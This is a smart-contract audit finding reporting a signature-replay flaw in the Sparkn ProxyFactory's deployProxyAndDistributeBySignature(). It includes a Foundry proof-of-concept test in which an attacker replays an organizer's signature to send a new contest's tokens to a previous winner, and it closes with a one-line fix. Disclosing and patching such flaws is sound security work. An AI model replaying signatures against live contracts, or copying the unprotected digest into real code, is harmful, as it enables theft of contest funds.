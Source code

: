 # Deploy and distribute signature can be replayed for any implementation

## Summary

The organizer signature used in [`deployProxyAndDistributeBySignature()`](https://github.com/Cyfrin/2023-08-sparkn/blob/main/src/ProxyFactory.sol#L152) to execute a distribution can be replayed for any other implementation, as this address isn't included in the hashed payload used to validate the signature.

## Vulnerability Details

The `deployProxyAndDistributeBySignature()` function present in the factory contract can be used to execute a meta-transaction to deploy and distribute a contest on behalf of the organizer.

The implementation relies on a signature that must be crafted by the organizer account. The function hashes the `contestId` and `data` payload to produce a digest, that is then used to recover the signer using the given signature, and validates that the signer is in fact the organizer.

Contests, besides having an id and an organizer, are set up using an implementation address which represents the implementation of the distribution contract. Even though the `implementation` input variable is validated by calculating the salt and checking that its associated close time is not zero (which means it was effectively set up by the owner), this variable isn't part of the signature. A signature will be valid for any `implementation` value, as long as the organizer and contest id stay the same.

This means that a bad actor can use the signature included in a transaction to `deployProxyAndDistributeBySignature()` to replay the distribution of a different contest (same organizer and id, different implementation). For example this can be used by the winner of a previous contest to execute the distribution of a different contest, which will end up sending the new distribution tokens to himself, or it can just be abused by a griefer to disrupt the protocol.

## Proof of Concept

In the following test, the signature created first by the organizer for the contest with `implementationA` is later replayed by an attacker for the contest with `implementationB`.

Note: the snippet shows only the relevant code for the test. Full test file can be found [here](https://gist.github.com/romeroadrian/b7c721d86ac5767da27b89d471358e70).

```solidity
function test_PoC_M02() public {
    bytes32 contestId = keccak256("a contest id");
    uint256 closeTime = block.timestamp + 1 weeks;
    address implementationA = address(new Distributor(address(factory), stadium));
    address implementationB = address(new Distributor(address(factory), stadium));

    // owner setups contest with implementation A
    vm.prank(owner);
    factory.setContest(organizer, contestId, closeTime, implementationA);

    // simulate tokens send to distribution
    address proxy = factory.getProxyAddress(_calculateSalt(organizer, contestId, implementationA), implementationA);
    tokenA.mint(proxy, 1000e18);

    // move to close time
    vm.warp(closeTime);

    // organizer signs distribution
    address[] memory winners = new address[](1);
    winners[0] = winner;

    uint256[] memory percentages = new uint256[](1);
    percentages[0] = 10000 - 500;

    bytes memory data = abi.encodeWithSelector(
        Distributor.distribute.selector,
        address(tokenA), // address token
        winners, // address[] memory winners
        percentages, // uint256[] memory percentages
        "" // dbytes memory data
    );

    bytes32 digest = factory.getDigest(contestId, data);
    (uint8 v, bytes32 r, bytes32 s) = vm.sign(organizerPk, digest);
    bytes memory signature = abi.encodePacked(r, s, v);

    // relayer sends the transaction to execute the distribution
    vm.prank(relayer);
    factory.deployProxyAndDistributeBySignature(organizer, contestId, implementationA, signature, data);

    // assert winner has tokens
    assertEq(tokenA.balanceOf(winner), 950e18);

    // Now owner setups contest with implementation B
    closeTime = block.timestamp + 1 weeks;
    vm.prank(owner);
    factory.setContest(organizer, contestId, closeTime, implementationB);

    // simulate tokens send to distribution
    proxy = factory.getProxyAddress(_calculateSalt(organizer, contestId, implementationB), implementationB);
    tokenA.mint(proxy, 1000e18);

    // move to close time
    vm.warp(closeTime);

    // Attacker replays previous signature targeting the new contest with implementation B
    vm.prank(attacker);
    factory.deployProxyAndDistributeBySignature(organizer, contestId, implementationB, signature, data);

    // tokens now are sent to previous winner!
    assertEq(tokenA.balanceOf(winner), 2 * 950e18);
}
```

## Impact

Medium. The signature included in `deployProxyAndDistributeBySignature()` can be used to replay the distribution of a different contest.

## Tools Used

None.

## Recommendations

Add the implementation address to the hashed payload (also see submission _"Invalid EIP-712 signature schema"_ related to how to properly structure the EIP-712 signature).

```diff
- bytes32 digest = _hashTypedDataV4(keccak256(abi.encode(contestId, data)));
+ bytes32 digest = _hashTypedDataV4(keccak256(abi.encode(contestId, implementation, data)));
```
